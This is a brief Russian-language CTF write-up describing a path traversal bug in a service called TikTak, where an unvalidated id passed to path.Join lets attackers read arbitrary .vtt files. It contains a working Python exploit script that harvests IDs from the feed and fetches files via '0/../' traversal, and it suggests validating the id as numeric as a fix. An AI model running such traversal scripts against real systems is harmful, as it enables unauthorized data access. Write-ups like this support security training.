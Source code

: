 # Path traversal в TikTak

Отсутствие проверки в handleVtt и использование path.Join с пользовательским вводом приводит к чтению произовльных vtt файлов

sploit для destructive farm

```python
import requests
import sys
import re


base_url = "http://" + sys.argv[1] + ":4000"

ids = re.findall(r'D:</b> (\d+)<', requests.get(base_url + '/feed').text)

for id_ in ids:
    print(id_)
    print(requests.get(base_url + "/vtt/?id=0/../" + id_).text)
```

Один из вариантов исправления - проверять, что id это число:
![](https://github.com/ArturLukianov/ADWriteups/blob/master/images/tiktak-traversal/Screenshot%20from%202020-05-09%2013-13-06.png)

